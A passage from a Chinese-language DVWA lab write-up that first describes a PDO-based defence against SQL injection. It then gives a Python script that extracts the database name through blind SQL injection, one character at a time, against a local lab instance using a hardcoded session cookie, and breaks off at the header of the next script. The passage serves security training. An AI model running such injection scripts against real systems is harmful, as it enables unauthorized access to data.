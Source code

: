 ``````

做了个CSRF的防御，使用了PDO进行了分离数据和参数

先判断了一下id是否为数字如果不为数字直接就会跳过数据库查询，bindParam把id转换为int型,防止输入的数字为字符。进行查询有效限制了恶意构造语句

![1559647652359](assets/1559647652359.png)

（2）SQL Injection(Bind)

跟如上一样

![1559647836899](assets/1559647836899.png)

## 6.2 工具测试
继续对DVWA靶场进行测试。

### 6.2.1 Python半自动化脚本

多用于盲注，这里只演示盲注

#### 6.2.1.1 注入数据库名

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
url="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    for i in range(1,20):
        for j in payload:
            url1="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
            url_code_name = urllib.parse.quote(url1)
            #print(url1)
            try:
                rp = urllib.request.Request(url + url1 + end, headers=header)
                respon = urllib.request.urlopen(rp)
                html = respon.read().decode('utf-8')
                if "User ID exists in the database." in html:
                    a+=j
                    print(a)
                    break
            except:
                continue
```

#### 6.2.1.2 查询数据库名

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
``````